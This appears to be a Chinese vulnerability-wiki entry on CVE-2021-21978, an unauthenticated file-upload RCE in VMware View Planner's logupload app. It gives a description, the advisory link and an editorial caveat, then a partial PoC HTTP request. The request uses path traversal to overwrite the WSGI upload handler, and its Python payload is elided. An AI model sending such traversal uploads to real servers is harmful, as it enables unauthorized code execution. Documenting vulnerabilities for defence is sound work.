

# VMware View Planner 未授权RCE CVE-2021-21978

<!-- vulwiki-editorial:start -->
## 校订与适用边界

原样例在关键 Python 逻辑处为省略号，只展示上传入口，不能称完整 RCE PoC。执行作用域为 logupload 容器；未证明宿主机接管。


### 本次正文校订

- 修正可确定的 json 模块拼写；不补写被省略的逻辑。
- 使 multipart boundary 参数与现有分隔线一致；请求仍是不完整节选。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- HTTP缺版本/Host，boundary值和分隔线不匹配
- 仅展示上传入口不能称完整RCE验证
- 缺受影响/修复版本，容器内执行不能扩大主机接管

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

输入验证不正确以及缺少授权会导致在logupload Web应用程序中上传任意文件。具有对View Planner Harness的网络访问权限未经授权的攻击者可以上传并执行特制文件，从而导致在logupload容器中远程执行代码。

参考链接：

- https://www.vmware.com/security/advisories/VMSA-2021-0003.html

## 漏洞复现

poc：

```
POST /logupload?logMetaData={"itrLogPath":"../../../../../../etc/httpd/html/wsgi_log_upload","logFileType":"log_upload_wsgi.py","workloadID":"2"}

Accept-Encoding:gzip,deflate
Content-Type:multipart/form-data;boundary=----WebKitFormBoundaryH8GoragzRFVTw1VD


------WebKitFormBoundaryH8GoragzRFVTw1VD
Content-Disposition:form-data;name="logfile";filename=""
Content-Type:text/plain

#! /usr/bin/env python3
import cgi
import os,sys
import logging
import json

....
```




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
